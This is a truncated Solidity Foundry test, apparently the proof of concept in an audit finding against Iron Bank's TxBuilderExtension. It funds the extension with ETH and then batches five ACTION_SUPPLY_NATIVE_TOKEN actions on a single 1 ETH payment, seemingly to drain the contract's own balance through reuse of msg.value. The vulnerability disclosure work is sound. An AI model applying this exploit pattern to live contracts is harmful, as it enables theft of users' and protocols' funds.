 ```solidity
        configureMarketAsCollateral(admin, configurator, address(pDAI), stableCollateralFactor);

        extension = createTxBuilderExtension(admin, ib, WETH, STETH, WSTETH);

        // Give some ether to user1.
        vm.deal(user1, 10000e18);

+       // Give some ether to extension contract
+       vm.deal(address(extension), 100e18);

        // User1 converts some ether to stETH.
        vm.prank(user1);
        StEthInterface(STETH).submit{value: 1000e18}(address(0));

        // Give some tokens to admin.
        deal(WETH, admin, 10000e18);
        deal(WSTETH, admin, 10000e18);
        deal(DAI, admin, 10000000e18);
        deal(USDT, admin, 10000000e6);

        // Admin supplies some liquidity to Iron Bank.
        vm.startPrank(admin);
        IERC20(WETH).safeIncreaseAllowance(address(ib), 10000e18);
        ib.supply(admin, admin, WETH, 10000e18);
        IERC20(WSTETH).safeIncreaseAllowance(address(ib), 10000e18);
        ib.supply(admin, admin, WSTETH, 10000e18);
        IERC20(DAI).safeIncreaseAllowance(address(ib), 10000000e18);
        ib.supply(admin, admin, DAI, 10000000e18);
        IERC20(USDT).safeIncreaseAllowance(address(ib), 10000000e6);
        ib.supply(admin, admin, USDT, 10000000e6);
        vm.stopPrank();

        // User1 authorizes the extension.
        vm.prank(user1);
        ib.setUserExtension(address(extension), true);
    }

    function testPoC() public {
        uint256 poolWethBefore = IERC20(WETH).balanceOf(address(ib));
        uint256 user1EthBefore = user1.balance;
        uint256 supplyAmount = 1e18;

        uint256 extensionContractETHBefore = address(extension).balance;

        vm.prank(user1);
        TxBuilderExtension.Action[] memory actions = new TxBuilderExtension.Action[](5);
        actions[0] = TxBuilderExtension.Action({name: "ACTION_SUPPLY_NATIVE_TOKEN", data: bytes("")});
        actions[1] = TxBuilderExtension.Action({name: "ACTION_SUPPLY_NATIVE_TOKEN", data: bytes("")});
        actions[2] = TxBuilderExtension.Action({name: "ACTION_SUPPLY_NATIVE_TOKEN", data: bytes("")});
        actions[3] = TxBuilderExtension.Action({name: "ACTION_SUPPLY_NATIVE_TOKEN", data: bytes("")});
        actions[4] = TxBuilderExtension.Action({name: "ACTION_SUPPLY_NATIVE_TOKEN", data: bytes("")});
        extension.execute{value: supplyAmount}(actions);

        uint256 poolWethAfter = IERC20(WETH).balanceOf(address(ib));
        uint256 user1EthAfter = user1.balance;

        uint256 extensionContractETHAfter = address(extension).balance;

```
